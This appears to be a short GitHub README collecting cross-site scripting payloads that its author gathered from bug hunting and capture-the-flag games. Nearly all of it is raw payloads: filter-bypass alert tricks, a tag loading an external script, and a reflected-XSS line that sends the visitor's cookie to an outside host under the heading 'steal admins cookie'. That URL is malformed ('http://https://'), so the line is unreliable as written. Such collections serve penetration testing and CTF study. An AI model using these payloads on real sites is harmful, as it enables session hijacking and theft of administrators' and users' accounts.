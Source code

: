 # description
I found some useful payloads while bug hunting or playing some ctfs
so here it is !

## Payloads

for no closing script tags
><img src=no onerror=alert(1) foo=
><SCRIPT SRC=http://xss.rocks/xss.js?< B >

bypass basic filters to execute an alert box
>';">'>alert(String.fromCharCode(88,83,83))

without quotes and semicolons
><IMG SRC=javascript:alert('XSS')>

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

without any space

>"><img/src="x"/onerror=alert(99)>

steal admins cookie via reflect xss

><img src=x onerror=document.location='http://https://callmerat.000webhostapp.com/c.php?c='+document.cookie;'>
